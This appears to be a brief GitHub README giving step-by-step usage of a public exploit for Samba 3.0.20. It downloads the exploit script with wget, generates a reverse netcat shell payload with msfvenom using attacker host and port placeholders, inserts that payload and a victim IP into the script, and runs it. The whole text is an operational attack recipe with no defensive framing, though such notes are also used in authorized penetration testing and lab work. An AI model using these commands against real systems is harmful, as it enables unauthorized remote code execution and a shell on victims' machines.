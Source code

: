 ### Download exploit
```
wget https://raw.githubusercontent.com/macha97/exploit-smb-3.0.20/master/exploit-smb-3.0.20.py
```

### Prepare reverse shell
```
msfvenom -p cmd/unix/reverse_netcat lhost=<lhost> lport=<lport> -f python
```

### Adjust exploit in exploit-smb-3.0.20.py
```
buf = ""
buf += "[...]"
victim_ip = '<rhost>'
```

### Exploit
```
python exploit-smb-3.0.20.py
```

### References
https://www.exploit-db.com/exploits/16320  


